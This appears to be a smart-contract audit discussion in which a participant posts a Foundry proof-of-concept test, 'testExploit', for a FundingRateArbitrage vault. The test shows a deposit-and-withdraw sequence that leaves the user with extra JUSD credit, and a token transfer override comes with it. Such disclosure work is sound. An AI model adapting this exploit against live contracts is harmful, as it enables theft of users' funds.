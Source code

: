 @nevillehuang let me get it to you by tomorrow

**detectiveking123**

@nevillehuang 

```
    function testExploit() public {
        jusd.mint(address(fundingRateArbitrage), 5000e6);
        // net value starts out at 0 :)
        console.log(fundingRateArbitrage.getNetValue());

        vm.startPrank(Owner); 
        fundingRateArbitrage.setMaxNetValue(10000000e6); 
        fundingRateArbitrage.setDefaultQuota(10000000e6); 
        vm.stopPrank(); 
                 
        initAlice();
        // Alice deposits twice
        fundingRateArbitrage.deposit(1);
        USDC.transfer(address(fundingRateArbitrage), 100e6);
        fundingRateArbitrage.deposit(100e6);
        vm.stopPrank();

        vm.startPrank(alice);
        fundingRateArbitrage.requestWithdraw(1);
        fundingRateArbitrage.requestWithdraw(1);
        vm.stopPrank();

        vm.startPrank(Owner); 
        uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 0; 
        requestIds[1] = 1;
        fundingRateArbitrage.permitWithdrawRequests(requestIds); 
        vm.stopPrank(); 

        // Alice is back to her initial balance, but now has a bunch of extra JUSD deposited for her into jojodealer!
        console.log(USDC.balanceOf(alice));
        (,uint secondaryCredit,,,) = jojoDealer.getCreditOf(alice);
        console.log(secondaryCredit);
    }
```

Add this to `FundingRateArbitrageTest.t.sol`

You will also need to add:

```
    function transfer(address to, uint256 amount) public override returns (bool) {
        address owner = _msgSender();
        _transfer(owner, to, amount);
        return true;
    }
```
